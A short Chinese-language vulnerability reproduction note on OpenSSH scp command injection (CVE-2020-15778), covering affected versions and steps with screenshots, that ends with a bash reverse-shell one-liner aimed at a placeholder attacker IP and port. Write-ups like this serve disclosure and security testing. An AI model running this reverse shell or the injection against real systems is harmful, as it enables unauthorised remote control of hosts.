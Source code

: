 # 

# OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

```
OpenSSH <= 8.3p1
```

## 漏洞复现

可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![image-20220209125535740](./images/202202091255788.png)

执行命令 ping dnslog



![image-20220209125550216](./images/202202091255296.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```
